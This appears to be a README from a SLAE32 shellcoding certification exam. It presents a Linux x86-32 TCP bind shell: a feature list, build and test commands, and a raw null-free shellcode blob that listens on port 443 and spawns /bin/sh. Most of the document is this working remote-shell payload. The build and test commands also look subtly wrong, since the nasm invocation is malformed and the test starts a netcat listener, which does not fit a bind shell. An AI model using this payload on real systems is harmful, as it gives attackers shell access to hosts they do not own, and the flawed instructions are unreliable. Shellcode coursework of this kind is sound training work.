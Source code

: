 Student ID: **SLAE-1530**

# TCP Bindshell (Linux x86-32) - SLAE32 Certification Exam

* Target : `Linux x86-32`
* NULL Free
* Tested on : Ubuntu 18.04.04
* TCP Port Editable (Python Script)
* Manual stack manipulation (no push/pop) but size heavy.

Blog post about creation of that Shellcode : https://phrozen.io/docs/linux/slae32/ex1-bindshell/

## Build Shellcode from NASM file

`nasm -f elf32 -o bindshell.nasm`

`ld bindshell.o -o bindshell`

### Test program

`nc -lvp 443`

Then

`./bindshell`

## Build Shellcode from Python Builder`

`python3 shellcode_builder.py <port_number>`

## RAW Shellcode (TCP Port = 443)

````
\x89\xe5\x31\xc0\x31\xdb\x31\xd2\x31\xf6\x31\xc9\xb1\x1e\x50\xe2
\xfd\x89\xec\xb3\x01\xc6\x44\x24\xf8\x01\xc6\x44\x24\xf4\x02\x83
\xec\x0c\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x80\xc3\x0d\xc6
\x44\x24\xfc\x04\x83\xec\x04\x89\x64\x24\xfc\xc6\x44\x24\xf8\x02
\xc6\x44\x24\xf4\x01\x89\x74\x24\xf0\x83\xec\x10\x89\xe1\xb0\x66
\xcd\x80\x31\xc0\x80\xeb\x0c\xb0\x01\xb4\xbb\x66\x89\x44\x24\xf2
\xc6\x44\x24\xf0\x02\x31\xc0\xb0\x10\x29\xc4\xc6\x44\x24\xfc\x10
\x89\x64\x24\xf8\x89\x74\x24\xf4\x83\xec\x0c\x89\xe1\x31\xc0\xb0
\x66\xcd\x80\x80\xc3\x02\x89\x74\x24\xf8\x83\xec\x08\x89\xe1\xb0
\x66\xcd\x80\xfe\xc3\x89\x74\x24\xf4\x83\xec\x0c\x89\xe1\xb0\x66
\xcd\x80\x89\xc3\x31\xc9\x31\xc0\xb0\x3f\xcd\x80\xfe\xc1\x80\xf9
\x02\x7e\xf3\x31\xc0\x31\xdb\x31\xc9\xc7\x44\x24\xf8\x2f\x2f\x73
\x68\xc7\x44\x24\xf4\x2f\x62\x69\x6e\x83\xec\x0c\x89\xe3\x83\xec
\x04\x89\xe2\x89\x5c\x24\xfc\x83\xec\x04\x89\xe1\xb0\x0b\xcd\x80
````
